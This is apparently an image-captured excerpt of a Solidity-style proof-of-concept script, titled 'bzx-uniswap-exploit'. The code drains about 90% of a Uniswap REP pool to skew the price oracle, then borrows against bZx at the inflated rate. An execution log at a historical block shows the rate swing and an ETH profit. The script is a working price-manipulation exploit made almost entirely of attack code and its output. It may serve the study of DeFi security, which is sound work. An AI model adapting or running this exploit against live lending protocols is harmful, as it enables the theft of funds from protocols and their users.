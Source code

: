 ```text
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 10 ether;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(REP, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.18u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    function makeOrder() external {
        UniswapLike uniswap = REP.getUniswapExchange();
        uint totalSupply = REP.balanceOf(address(uniswap));
        uint borrowAmount = totalSupply * 90 / 100;
        REP.getFromUniswap(borrowAmount);
        printf("making order totalSupply=%.18u borrowed=%.18u\n", abi.encode(totalSupply, borrowAmount));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_ETH, true, BZX_ETH.marketLiquidity(), WETH, REP);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        REP.giveAllToUniswap();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        WETH.deposit.value(amount)();
    }
}

/*
### running script "bzx-uniswap-exploit" at block 8547500
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=0.057621091203633720 slippage=0.055892458467524708
##### calling: makeOrder()
making order totalSupply=8856.102959786215028808 borrowed=7970.492663807593525927
##### calling: checkRates()
checking rates tokens=10.000000000000000000 rate=5.656379870360426078 slippage=5.486688474249613295
##### calling: borrow()
collateral_required=702.265284613341236862, interest_required=205.433213643594588344
borrowing loanHash=0x947839881794b73d61a0a27ecdbe8213f543bdd4f4a578eedb5e1be57221109c
##### calling: cleanup()
##### calling: checkProfits()
profits=2425.711777227580307468
#### finished executing step: exploit
*/
```